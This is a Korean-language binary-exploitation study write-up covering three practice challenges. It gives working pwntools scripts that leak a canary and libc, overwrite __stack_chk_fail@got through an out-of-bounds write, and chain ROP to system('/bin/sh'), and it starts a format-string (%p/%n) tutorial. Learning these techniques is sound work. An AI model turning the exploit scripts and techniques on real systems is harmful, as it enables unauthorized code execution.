- **id, pw 입력 분리**: `read`는 줄 단위가 아니라 있는 만큼 읽는다. username과 passwd를
한꺼번에 보내면 첫 `read(100)`이 둘 다 입력을 받아 100 크기를 넘겨 문제가 생긴다. → `send → sleep(0.5) → send`로 시간차를 둬, 입력을 안전하게 분리.

---

#### 5. 클리어



---

[↑ 챕터 목록](#chapter-index)


## Ch. 6

> 
> 
> 
> canary leak & libc leak → libc base → libc gadget exploit
> 

이번 문제는 **Ch.5(카나리 leak) + Ch.4(libc leak·ROP)**를 합친 데다, 추가로 **"main의
리턴주소 = `__libc_start_call_main` 주소"** 라는 libc leak 트릭까지 쓰는 종합편이다.

---

#### 1. 대상 분석

##### 1-1. 코드 분석

diary라는 일기장 프로그램이다. 페이지 6개를 스택 버퍼로 두고, 포인터 배열 `diary[]`로 관리한다.

```c
int main(){
    int ch, index = 0;
    char page1[] = "As soon as I arrived here...";   // 스택 버퍼 (각 ~60~150바이트)
    char page2[] = "...";
    ... page3, page4, page5 ...
    char hidden[] = "Failed, failed, ... itchy, tasty";
    char* diary[] = {page1, page2, page3, page4, page5, hidden};  // 포인터 배열

    while(1){
        menu();                          
        scanf("%d", &ch);
        if (ch == 1){                    // read diary
            scanf("%d", &index);
            if (index >= 6 || index < 0) { puts("invalid index"); continue; }
            puts(diary[index]);          // 포인터가 가리키는 곳 출력 -> leak 가능
        }
        else if (ch == 2){               // write diary
            scanf("%d", &index);
            if (index >= 6 || index < 0) { puts("invalid index"); continue; }
            read(0, diary[index], 0x100);// 0x100=256 바이트 쓰기 -> 버퍼보다 커서 오버플로우 가능
        }
        else if (ch == 3) break;         // put down → 루프 탈출 → main return
    }
    puts("Ok let's go!");
    return 0;                            // 여기서 leave; ret -> 덮은 리턴주소로 점프
}
```

- **오버플로우**: `read(0, diary[index], 0x100)`는 **256바이트**를 쓰는데, 각 페이지 버퍼는
그보다 작다(문자열 길이 + 1). → **스택 오버플로우.**
    
    > `char page1[] = "리터럴"`은 **배열 크기 = strlen+1**로 고정.
    문자열 길이만를 대강 세어보면, 전부 256 미만이다.
    > 
- **leak 수단**: `puts(diary[index])`. puts는 **널을 만날 때까지** 출력. 오버플로우로 page5를
널 없이 채우면, puts가 그 위의 **카나리·리턴주소(libc)**까지 유출시킨다.
- **리턴**: menu 3(put down)을 고르면 루프를 빠져나와 `main`이 리턴 → `leave; ret`을 이용해
덮은 리턴주소로 점프시킬 수 있다

##### 1-2. 보호기법 확인(checksec)



- **Canary** → 카나리 leak 필수.
- **NX** → 쉘코드 주입 불가 → ROP.
- **No PIE** → 바이너리 주소는 고정이지만, **win 함수·`system`이 바이너리에 없음** →
**libc의 system을 써야 함 → libc leak 필요**.

---

#### 2. 익스플로잇 아이디어

##### 2-1. "diary[] 포인터를 덮어 임의 읽기/쓰기" → 실패

처음엔 "`diary[i]` 포인터를 오버플로우로 덮으면, menu 1(puts)=임의 읽기, menu 2(read)=임의
쓰기"가 가능한 줄 알고 시도했다. 하지만 디스어셈블로 스택 배치를 보니 `diary[]` 배열이 모든 page 버퍼보다
아래(낮은 주소)에 있었다. 오버플로우는 **위로(높은 주소)** 쓰므로 **diary[]에 못 닿는다.** 

##### 2-2.  page5(index 4) 오버플로우 → 리턴주소

page 버퍼 중 가장 높은 주소에 있는 `page5`(index 4)를 0x100 오버플로우하면 **카나리·saved
rbp·리턴주소까지 닿는다.** (다른 페이지는 거기까지 못 간다) 

##### 2-3. win 없음 + 바이너리에 `pop rdi` 없음 → libc로 해결

- **win 함수 없음** → ret2win 불가능
- **`system`이 바이너리에 없음** → libc의 system 필요 → **libc leak 필요**



- **`ROPgadget`으로 봐도 바이너리에 `pop rdi; ret` 없음** → 인자(rdi) 세팅 가젯이 없다
    
    
    

> libc를 leak해서 libc 베이스를 알면, **libc 안의 `pop rdi; ret`·`system`·"/bin/sh"를 전부** 쓸 수
있다. 최종 ROP는 **바이너리 가젯이 아니라 libc 가젯**으로 구성했다.
> 

##### 2-4. libc leak / "리턴주소 = libc 주소"

**`main`의 리턴주소(rbp+0x8) 자체가 libc 주소**다. main을 부른 게 `__libc_start_call_main`
(libc 내부)이기 때문이다(항상 이런가 싶어 따로 찾아보니, 동적 링크이고, main의 리턴주소이기 때문에 이런것이지 만약 정적 링크라면 libc가 바이너리에 위치해, 애초에 불가능하다.). PIE가 없으므로 **바이너리** 주소는 고정이지만 **libc는 ASLR 영향으로 주소가 계속 바뀐다. 이를 동적 계산하기 위해 libc 베이스를 구해, libc offset과 계산해야하는데**(libc_base + libc_offset = 실제 libc 주소), 이 main의 리턴주소를 읽으면 libc_base 역산이 가능하다. 

→ page5를 오버플로우해 **카나리+saved rbp를 널 없이 덮고**, `puts`가 그 위의 **리턴주소까지
유출하게** 만들면 libc는 유출된다.(puts는 널에서 멈추므로, 중간의 카나리·saved rbp의 널을 non-null로
덮어야 리턴주소까지 도달)

##### 2-5. 익스플로잇 구조 (menu가 while(1) 루프라 여러 번 가능)

```
[A] 카나리 leak : page5에 'A'*0x98 + '\x01'       → menu1 puts → 카나리[1..7]
[B] libc  leak : page5에 'A'*0xa8 (카나리+saved rbp 덮음) → menu1 puts → 리턴주소(libc) 6바이트
                 → libc_base = ret_addr - 0x29d90
[C] system     : page5 오버플로우로 ROP 심음:
                   'A'*0x98 + canary + fake_rbp + [pop rdi][binsh][ret정렬][system]  (전부 libc)
                 → menu3(put down) → return → 카나리 통과 → system("/bin/sh") → 셸
```



> 0x29d90같은 경우, gdb를 통해 RET(rbp+8)과 libc_base를 확인한 뒤 그 사이의 offset을 직접 계산해 구할 수 있었다.
> 

---

#### 3. 필요한 정보 확인

##### 3-1. 스택 레이아웃 (disass main)

diary[] 세팅부(`lea [rbp-..]; mov [rbp-0x300 + i*8]`)와 접근부(`mov rax,[rbp+rax*8-0x300]`)에서
추출한 배치:

```
낮은 주소
  rbp-0x300  diary[0](→page1) ┐
  rbp-0x2f8  diary[1](→page2) │ 포인터 배열 (맨 아래 = overflow로 못 닿음)
  rbp-0x2f0  diary[2](→page3) │
  rbp-0x2e8  diary[3](→page4) │
  rbp-0x2e0  diary[4](→page5) │
  rbp-0x2d8  diary[5](→hidden)┘
  rbp-0x2d0  hidden
  rbp-0x290  page2
  rbp-0x230  page4
  rbp-0x1c0  page1
  rbp-0x130  page3
  rbp-0x0a0  page5     index 4 — 가장 높은 버퍼 → 오버플로우 대상
  rbp-0x008  canary
  rbp+0x000  saved rbp
  rbp+0x008  return address (= __libc_start_call_main 내부 = libc)
높은 주소
```

##### 3-2. 오프셋 (page5 기준)

```
page5 → 카나리   = 0xa0 - 0x08 = 0x98 = 152
page5 → saved rbp = 0xa0
page5 → 리턴주소 = 0xa0 + 0x08 = 0xa8 = 168   (read 버퍼 256 크기 안에 들어간다.)
```

##### 3-3. 카나리 leak (ch5와 동일)

카나리 바이트0은 항상 `0x00`이라 `puts`가 거기서 멈춘다. 그래서 **카나리 바이트0을 `0x01`로
덮어** puts가 카나리 상위 7바이트까지 흘리게 한다.

- page5에 `'A'*0x98 + '\x01'` → 'A'로 page5를 채우고, 0x98번째 바이트(`\x01`)가 카나리[0]을 덮음
- menu1 puts(page5) 출력 = `'A'*0x98 + 0x01 + 카나리[1..7] + ...`
- 복원: `canary = u64(b'\x00' + leak[0x98+1 : 0x98+8])` (바이트0은 항상 0x00이니 앞에 붙임)

> 카나리 1~7 중 하나가 우연히 0x00이면 puts가 끊긴다(약 2~3%).
다시 실행하면 새 카나리가 뽑힌다.
> 

##### 3-4. libc leak (리턴주소 오프셋 = 0x29d90)

- page5에 `'A'*0xa8` → page5 + 카나리(8) + saved rbp(8)를 **전부 non-null로** 덮음
(리턴주소 자리(0xa8)는 **안 건드린다** → 원래 libc 값 유지 위해)
- menu1 puts(page5) 출력 = `'A'*0xa8 + 리턴주소 하위 6바이트` (상위 2바이트는 0x0000이라 puts가 멈춘다)
- `ret_addr = u64(leak[0xa8:0xa8+6].ljust(8, b'\x00'))`위에서 나온 RET 하위 6바이트 뒤에 \x00을 붙여 8바이트로 만들어 리턴 주소를 복원한다.
- **`libc_base = ret_addr - 0x29d90`** 0x29d90는 위에서 설명했듯, gdb를 통해 offset을 구해 알 수 있었다.

##### 3-5. libc 가젯 (libc leak 후)

`libc.address`를 세팅하면 pwntools가 전부 실제 주소로 돌려준다:

| 부품 | 구하는 법 |
| --- | --- |
| `pop rdi; ret` | `ROP(libc).find_gadget(['pop rdi','ret'])[0]` |
| `ret` (정렬용) | `ROP(libc).find_gadget(['ret'])[0]` |
| "/bin/sh" | `next(libc.search(b'/bin/sh\x00'))` |
| `system` | `libc.sym['system']` |

---

#### 4. Exploit

```python
from pwn import *
context.arch = 'amd64'
context.log_level = 'info'

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
p = process('./prob')

def write_diary(idx, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b': ', str(idx).encode())
    p.sendafter(b'content > ', data)

def read_diary(idx):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b': ', str(idx).encode())
    return p.recvline()

### 카나리 leak
write_diary(4, b'A'*0x98 + b'\x01')
canary = u64(b'\x00' + read_diary(4)[0x98+1:0x98+8])
log.success('canary   = %#018x' % canary)

### libc leak (main 리턴주소 = __libc_start_call_main + 0x29d90)
write_diary(4, b'A'*0xa8)
ret_addr = u64(read_diary(4)[0xa8:0xa8+6].ljust(8, b'\x00'))
libc.address = ret_addr - 0x29d90
log.success('libc base= %#018x' % libc.address)
assert libc.address & 0xfff == 0, "libc base가 000으로 안 끝남 → 오프셋 틀림!"

### ROP: system("/bin/sh")  (libc 가젯)
rop     = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret_g   = rop.find_gadget(['ret'])[0]
binsh   = next(libc.search(b'/bin/sh\x00'))
system  = libc.sym['system']

payload  = b'A'*0x98
payload += p64(canary)        # [rbp-0x8] 카나리 복원
payload += p64(0x404080)      # [rbp+0x0] fake saved rbp (매핑된 주소)
payload += p64(pop_rdi)       # [rbp+0x8] 리턴주소 → ROP 시작
payload += p64(binsh)
payload += p64(ret_g)         # 16바이트 정렬 (system movaps crash 방지)
payload += p64(system)
write_diary(4, payload)

p.sendlineafter(b'> ', b'3')  # put down → return → ROP 발동
p.interactive()
```

##### payload 구조

```
[ 'A'×0x98 ][ canary ][ fake_rbp ][ pop_rdi ][ binsh ][ ret ][ system ]
   152바이트    8         8          8          8        8      8
  (page5채움)(rbp-0x8) (rbp+0x0)  (rbp+0x8=리턴주소부터 ROP 체인)
= 총 0xc8(200)바이트  (read 한도 256 안)
```

##### ROP 흐름 (main의 ret 순간부터)

1. `pop rdi; ret` → 다음 값 `binsh`를 rdi에 → rdi = "/bin/sh"
2. `ret` → 정렬만 (rsp 8 밀어 16정렬 → system의 movaps 크래시 방지)
3. `system` → `system("/bin/sh")` → 셸

---

#### 5. 클리어



---

[↑ 챕터 목록](#chapter-index)


## Ch. 7

> OOB write(임의 쓰기)로 `__stack_chk_fail@got`를 덮어 **카나리를 우회** → startup BOF로 ROP → puts(puts@got)로 libc leak → system("/bin/sh")
> 

---

#### 0. Global Offset Table(GOT)

##### GOT = "함수 → 실제 주소" 표이다.

바이너리의 데이터 영역(`.got.plt`)에 **함수마다 한 칸(8바이트)**씩 있다

```
GOT:
  puts@got    (0x404018) : [ puts의 실제 libc 주소 ]
  printf@got  (0x404xxx) : [ printf의 실제 libc 주소 ]
  system@got            : [ ... ]
```

puts 함수를 호출한다고 할 때의 과정은 아래와 같다.

(아래 그림은 Lazy binding 1번 상황이다. 즉 첫 번째 호출 상황.)

```python
call puts@plt → jmp *[puts@got] → (resolver 경로) → 주소 찾아 GOT에 기록 → 그제서야 puts
```

(아래 그림은 Lazy binding 2번 상황이다. 즉 두 번째 호출부터의 상황.)

```python
call puts@plt
   │
   ▼
puts@plt:  jmp *[puts@got]      ← GOT 칸에 든 "실제 주소"로 점프
                 │
                 ▼
          libc의 진짜 puts 코드 실행
```

- **PLT(Procedure Linkage Table)** = “GOT를 거쳐 점프하는 작은 중계 코드”.
- **GOT** = "실제 주소가 적힌 표".
- → `call puts@plt` → `jmp *puts@got` → 실제 puts. **GOT 칸의 값이 곧 점프 목적지**

간단히 말하자면, 함수를 호출하면 plt가 got 칸을 거쳐 점프한다.( got 주소를 확인해,  호출된 함수의 실제 주소로 점프하여 함수를 실행하는 것이다.)

##### GOT가 왜 필요한가: “libc 함수 주소를 컴파일 때 모른다”

프로그램이 `puts("hi")`를 부르면, 실제 `puts` 코드는 **libc.so.6 안**에 있다. 여기서

ibc는 **별도 파일**이고, **ASLR 때문에 매번 다른 주소**에 로드되고 이로 인해, **컴파일 시점엔 `puts`의 진짜 주소를 알 수 없다.**

→ 그래서 "주소를 **나중에(실행 중) 채워 넣을** 빈칸"이 필요하고. 그 빈칸들의 표가 **GOT(Global Offset Table)** 인 것이다. 

##### Lazy binding (처음엔 빈칸이다)

효율 때문에 **처음 호출할 때** 주소를 채운다.

1. **첫 호출**: GOT 칸이 아직 "해석기(resolver)"를 가리킴 → resolver가 libc에서 puts 주소를 찾아 **GOT 칸에 써넣음** → 점프.
2. **그 이후**: GOT 칸에 이미 실제 주소가 있으니 바로 점프한다(빠름).

→ 그래서 **한 번이라도 호출된 함수의 GOT 칸엔 "실제 libc 주소"가 들어있다.**

##### Exploit 관점

GOT는 **데이터 영역**이라 두 가지로 악용된다.

**① GOT leak (읽기) — libc 유출**

GOT 칸엔 **libc 실제 주소**가 들어있으므로 그 칸을 읽으면 libc 베이스를 역산할 수 있다.

**② GOT overwrite (쓰기) — 함수 가로채기 / 보호기법 무력화**

GOT 칸이 **쓰기 가능**(Partial RELRO)이면, 그 값을 바꿔치기할 수 있다.

#### .got vs .got.plt

##### 핵심 차이

|  | `.got` | `.got.plt` |
| --- | --- | --- |
| 담는 것 | **전역 변수**의 실제 주소 | **함수**의 실제 주소 |
| 예 | `stdin`, `stdout`, `environ` 등 libc 전역변수 | `puts`, `printf`, `system` 등 libc 함수 |
| 채우는 시점 | 보통 **시작할 때 바로** | **lazy binding** (처음 호출 때) |
| 익스에서 | 덜 씀 | **GOT overwrite/leak 에 자주 쓰임** |

##### lazy binding 때문에 나뉜다.

- **함수(`.got.plt`)** → **처음 호출될 때까지 주소를 안 채운다** (lazy). (안 쓰는 함수 주소는 해석 안 해서 빠르다.) → 그래서 **"실행 중 써넣어야" 하니 쓰기 가능**해야 하므로 별도 섹션(`.got.plt`)으로 분리했다
- **변수(`.got`)** → **시작하자마자 다 채운다** (변수는 바로 쓰이니까 미룰 이유가 없다). → 채우고 나면 안 바뀌어서 **잠가도(읽기전용) 무관하다.**

##### 보호 기법: Partial RELRO vs Full RELRO

- **Partial RELRO** → `.got.plt`가 **쓰기 가능** → GOT overwrite 가능하다.
- **Full RELRO** → GOT가 **읽기 전용**으로 잠긴다 → overwrite 불가능하다.

> Full RELRO에서는 lazy binding이 아니라 bind now이기 때문에 시작할 때 모든 GOT를 미리 채운 뒤 읽기전용으로 바꾸어버린다.
> 

---

#### 1. 대상 분석

##### 1-1. 코드 분석

```c
unsigned long long wire[100];        // 전역 배열 (bss, 고정 주소)

void startup(){
    char wish[0x100];
    read(0, wish, 0x200);            // 0x100 버퍼에 0x200 읽음 -> 256바이트 오버플로우
}

void menu(){ /* 1.Re-map ecu  2.Start a car  3.Die XD */ }

int main(){
    setbuf(stdout,0); setbuf(stdin,0);
    while(1){
        int select;
        menu();  printf("> ");
        scanf("%d", &select);  getchar();
        if (select == 1){                 // Re-map ecu
            scanf("%d", &select);  getchar();     // index : 범위 검사 없음
            scanf("%llu", &wire[select]);         // wire[select] 에 임의 값 쓰기가능
        } else if (select == 2){
            startup();                    // startup 함수 -> 스택 오버플로우가능 
        } else { return 1; }
    }
}
```

- **Menu 1: OOB write — 임의 주소 쓰기**: `wire[select]`의 `select`에 **범위 검사가 없다.**
음수/큰 값을 넣으면 `wire` 배열 밖, 특히 **GOT까지** 닿는다. `scanf("%llu", ...)`로 **임의
8바이트 값**을 써넣을 수 있다 → **write-what-where.** (No PIE라 `wire`·GOT 주소 고정)
- **Menu 2: startup 스택 오버플로우**: `char wish[0x100]`에 `read(0, wish, 0x200)` → 256바이트
오버플로우 → 리턴주소 장악 가능. **(카나리 문제를 해결하긴 해야한다.)**

> **카나리 leak이 불가능하다.** (이 프로그램은 사용자 데이터를 출력하는 곳이 전혀 없다 puts/printf 전부 고정 문자열). 따라서 **카나리도 libc도 읽어낼 방법이 없다.**
> 

##### 1-2. 보호기법 확인 (checksec)



- **Partial RELRO** → **GOT 쓰기 가능** → GOT Overwrite 가능.
- **Canary** → 스택 오버플로우(menu 2)를 막는다. 근데 카나리 leak 수단이 없어 **우회**해야 한다.
- **NX** → 쉘코드 불가 → ROP.
- **No PIE** → `wire`·GOT·가젯·`main` 전부 **고정 주소** → 하드코딩 가능. 단 **libc는 ASLR**이라
libc leak은 여전히 필요.

---

#### 2. 익스플로잇 아이디어

##### 2-1. canary 우회

처음엔 menu 1으로 카나리를 leak 할 수 있지 않을까 생각했지만, **menu 1은 쓰기 전용**이고 코드를 보니 **출력
수단 자체가 없다.**

대신 **OOB write(임의 쓰기)로 카나리 검사 자체를 무력화할 수 있다(GOT Overwrite)**. 

> **`__stack_chk_fail@got`를 `ret` 가젯 주소로 덮는다.**
카나리가 깨지면 startup 에필로그에서 `call __stack_chk_fail`이 실행되는데, 그 GOT가 `ret`을
가리키면 **아무것도 안 하고 되돌아와 `leave; ret`이 정상 진행**된다. → 카나리 검사가 우회된다.
> 

##### 2-2. __stack_chk_fail 우회 원리

**startup 에필로그(disass)**

```nasm
sub  rax, fs:0x28
je   .ok                       ; 카나리 일치 -> 건너뜀
call __stack_chk_fail@plt      ; 불일치 -> 호출 (평소엔 abort)
.ok:
leave
ret
```

- `__stack_chk_fail@plt`은 내부적으로 `jmp *__stack_chk_fail@got`.
- **`__stack_chk_fail@got = ret 가젯`** 으로 덮으면:
`call __stack_chk_fail` → (리턴주소 `.ok` push) → `ret`로 점프 → 바로 `.ok`로 되돌아옴 →
`leave; ret` 정상 진행 →  **덮은 리턴주소로 ROP**
- 즉 **카나리가 틀려도(아무 값으로 smash) 그냥 통과한다.**

##### 2-3. win 없음·바이너리에 system 없음 → libc 필요

`system`이 바이너리에 없으므로, startup BOF로 리턴주소를 잡은 뒤 **libc의 system**을 써야 한다.(libc leak 필요)
**`pop rdi; ret` 가젯은 바이너리에 존재**(0x4011fe)하므로, ROP로
`puts(puts@got)`를 호출해 libc를 유출할 수 있다.



##### 2-4. libc leak : puts(puts@got)

startup BOF로 ROP를 심어 `puts(puts@got)`를 호출하면, **puts@got에 든 "libc의 실제 puts 주소"**
가 출력된다 → `libc_base = leak - libc.sym['puts']`. 유출 후 **`main`으로 되돌아와(재진입)** 메뉴
루프를 다시 돌려 2차 오버플로우를 한다.

##### 2-5. 익스플로잇 구조(while(1) 반복문 이용)

```
[1] GOT overwrite (menu 1): wire[-12] = ret 가젯  → __stack_chk_fail@got 덮어 카나리 우회
[2] libc leak    (menu 2): startup BOF → ROP [pop rdi][puts@got][puts@plt][main]
                           → puts(puts@got) → libc 유출 → main 재진입
[3] system       (menu 2): startup BOF → ROP [pop rdi][binsh][ret정렬][system]
                           → system("/bin/sh") → 셸
```

---

#### 3. 필요한 정보 확인

##### 3-1. 주소 모으기

|  | 값 | 출처 |
| --- | --- | --- |
| `pop rdi ; ret` | 0x4011fe | `ROPgadget --binary ./got | grep 'pop rdi'` |
| 순수 `ret` | 0x40101a | `ROPgadget --binary ./got | grep ': ret$'` |
| `wire[]` 베이스 | 0x404080 | `nm ./got | grep -w wire` |
| `__stack_chk_fail@got` | 0x404020 | `objdump -R ./got | grep stack_chk_fail` |
| `puts@got` | 0x404018 | `objdump -R ./got | grep puts` |
| `puts@plt` | 0x4010a0 | startup disasm `call 0x4010a0 <puts@plt>` |
| `main` | 0x40129d | `nm ./got | grep -w main` |

##### 3-2. OOB index 계산 (__stack_chk_fail@got 덮기)

`wire[select]` 주소 = `wire + select*(원소 크기)`. 이게 `__stack_chk_fail@got`이 되게 하는 index:

```
0x404080 + select*8 = 0x404020
select*8 = 0x404020 - 0x404080 = -0x60
select   = -0x60 / 8 = -12
```

→ **menu 1에서 index = -12, value = 0x40101a(ret)** 로 쓰면 `__stack_chk_fail@got`가 ret이 된다.
(`select`가 `int`라 음수가 그대로 들어간다.)

##### 3-3. startup 오프셋 (wish → 리턴주소)

disass startup 기준: `wish = rbp-0x110`, `canary = rbp-0x8`, `return = rbp+0x8`.

```
오프셋 = (rbp+0x8) - (rbp-0x110) = 0x118 = 280   (read 0x200=512 크기 한도? 내이다.)
```

##### 3-4. libc 가젯 (libc leak 후)

`libc.address`를 세팅하면 pwntools가 전부 실제 주소로 돌려준다:

| 부품 | 구하는 법 |
| --- | --- |
| "/bin/sh" | `next(libc.search(b'/bin/sh\x00'))` |
| `system` | `libc.sym['system']` |
| (ROP는 바이너리 pop rdi·ret 재사용) | 0x4011fe / 0x40101a |

---

#### 4. Exploit

```python
from pwn import *
context.arch = 'amd64'
context.log_level = 'info'

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
p = process('./got')

POP_RDI  = 0x4011fe
RET      = 0x40101a
STKCHK   = 0x404020      # __stack_chk_fail@got
PUTS_GOT = 0x404018
PUTS_PLT = 0x4010a0
MAIN     = 0x40129d
OFF      = 0x118

def got_write(idx, value):               # menu1 : wire[idx] = value
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'number : ', str(idx).encode())
    p.sendlineafter(b'value : ', str(value).encode())

def overflow(payload):                   # menu2 : startup read 오버플로우
    p.sendlineafter(b'> ', b'2')
    p.sendafter(b'Hope the car starts!\n', payload)

### 카나리 우회 : __stack_chk_fail@got = ret
got_write(-12, RET)                      # wire[-12] = __stack_chk_fail@got

### libc leak : puts(puts@got) → main 재진입
overflow(b'A'*OFF + p64(POP_RDI) + p64(PUTS_GOT) + p64(PUTS_PLT) + p64(MAIN))
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = leak - libc.sym['puts']
log.success('libc base = %#x' % libc.address)
assert libc.address & 0xfff == 0, "libc base 정렬 안 맞음"
### libc base는 반드시 000으로 끝난다.
### system("/bin/sh")
binsh  = next(libc.search(b'/bin/sh\x00'))
system = libc.sym['system']
overflow(b'A'*OFF + p64(POP_RDI) + p64(binsh) + p64(RET) + p64(system))

p.interactive()
```

##### payload 구조

```
[ 'A'×0x118 ][ pop_rdi ][ puts@got ][ puts@plt ][ main ]
  280바이트    리턴주소부터 ROP:
                puts(puts@got) → libc puts 실제주소 출력 → main 재진입
```

##### ROP 흐름

- **[2]** `pop rdi → puts@got` → `puts@plt` 실행 → puts가 **puts@got의 값(libc 주소)** 출력 →
`main`으로 복귀 → 루프 재시작
- **[3]** `pop rdi → "/bin/sh"` → `ret`(16정렬) → `system` → `system("/bin/sh")` → 셸

---

#### 5. 클리어



---

[↑ 챕터 목록](#chapter-index)


## Ch. 8

> FSB 이용 → printf@got 주소에 win 함수 덮기
> 

---

#### 0. printf()

```c
printf("%s %d", name, age);
```

- 첫 번째 인자 `"%s %d"` = **포맷 스트링**
- printf는 포맷 스트링을 왼쪽부터 읽다가 **`%`를 만나면** → "인자 하나를 꺼내 사용하는 거라 해석" 하고 **다음 인자를 가져와** 출력한다.
    - `%s` → 다음 인자를 "문자열 주소"로 보고 그 문자열 출력
    - `%d` → 다음 인자를 "정수"로 출력
    - `%p` → 다음 인자를 "주소(16진수)"로 출력
    - `%c`  → 다음 인자를 “문자 1개”로 출력
    - `%x`  → 다음 인자를 “16진수(정수)”로 출력
    - `%n`  → 지금까지 출력한 바이트 수를 인자가 가리키는 주소에 int(4bytes)로 쓰기 (%hn: 2bytes, %hhn: 1byte)

##### printf는 "인자가 몇 개인지" 모른다

printf는 **포맷 문자열에 `%`가 몇 개 있는지로** 인자를 꺼내 작동한다. 즉 **실제로 몇 개를 넘겨받았는지 별도의 확인 절차가 존재하지 않는다.**

인자는 정해진 자리(64비트: rsi, rdx, rcx, r8, r9 레지스터 → 그 다음 스택)에서 **순서대로** 꺼낸다

```
printf(포맷, 인자1, 인자2, ...)
        rdi    rsi    rdx   ... → 그 다음은 스택에서
```



> 
> 
> 
> printf(”%p %p”); 를 작동시키면 ,별도의 인자가 주어지지 않았어도 이 자리(레지스터/스택)에 있는 값 2개를 그냥 꺼내서 출력해버린다.
> 

##### 0-1. fsb 바이너리 case1

**보통의 경우**

```c
printf("%s", buf);
//		포맷  인자
```

- 포맷 문자열은 `"%s"` (고정)이므로  buf는 **데이터(인자)로만** 쓰인다.
- buf에 주소가 들어있어도 printf는 그걸 **글자로 출력한다.**  → 즉, 안전하다.

**이 문제 상황(Case 1)**

```c
printf(buf);     
// buf 자체가 포맷 문자열
```

**buf가 포맷 문자열 자리**에 들어가 있다. 이 때, buf는 read함수로 입력된 값이다. 여기에 `%p`를 넣으면 printf가 그걸 **"지시"**로 해석해서 해당 위치에 있는 스택 값을 꺼내 출력한다. 만약 %n을 넣으면 메모리에 값을 쓸 수 있는 것이다.

---

#### 1. 대상 분석

##### 1-1. 코드 분석

case 1에서

```c
memset(buf,0,0x100);
read(0, buf, 0x9f);
 printf(buf); // 사용자 입력을 포맷 문자열로 그대로 printf
if(strstr(buf, "Painkiller") || strstr(buf, "Morphine") || strstr(buf, "ibuprofen")){
        exitst_or_not = (int *)empty;
}
```

##### 1-2. 보호기법 분석



```python
Partial RELRO → GOT Overwrite 가능
Canary → Canary leak or Canary 우회
NX → gadget 으로 우회
No PIE → exploit 하드 코딩 가능.
```

---

#### 2. Exploit 아이디어

##### 2-1. buf에 `%p`를 넣어 메모리 leak

case 1에 `AAAA.%p.%p.%p.%p` 를 입력하면 `printf("AAAA.%p.%p.%p.%p")`가 되고 아래처럼 memory leak이 일어나는 걸 확인할 수 있다. 이걸 이용해, 스택에서 원하는 주소, 카나리, libc값 등을 바로바로 leak 할 수 있다.



##### 2-2. buf에 `%n`을 넣어 메모리 쓰기

`%n`: **"지금까지 출력한 바이트 수"를, 해당 인자가 가리키는 주소에 써넣는다.**

```c
#include <stdio.h>

int main() {
        int count;
        printf("hello%n\n", &count);
        printf("%d\n", count);
}
```



> 
> 
> 
> **%c 특징**
> 
> `printf(”%10c”, ‘A’);` 같은 경우 %c앞에 10이 위치하므로 9칸만큼의 공백을 출력한 다음 1바이트 크기의 문자열인 A를 출력한다. (9 + 1 = 10)
> 
> 
> 

%n과 %c를 같이 사용하면 아래와 같은 것들이 가능해진다.

- `%자리수$n` 으로 그 주소에 **출력한 바이트 수를 써넣을 수 있다.**
- 출력 바이트 수는 `%100c` 같은 걸로 **내가 조절해, 원하는 값을 쓸 수 있다**.

> 
> 
> 
> ### `%n` vs `%6$n` 차이
> 
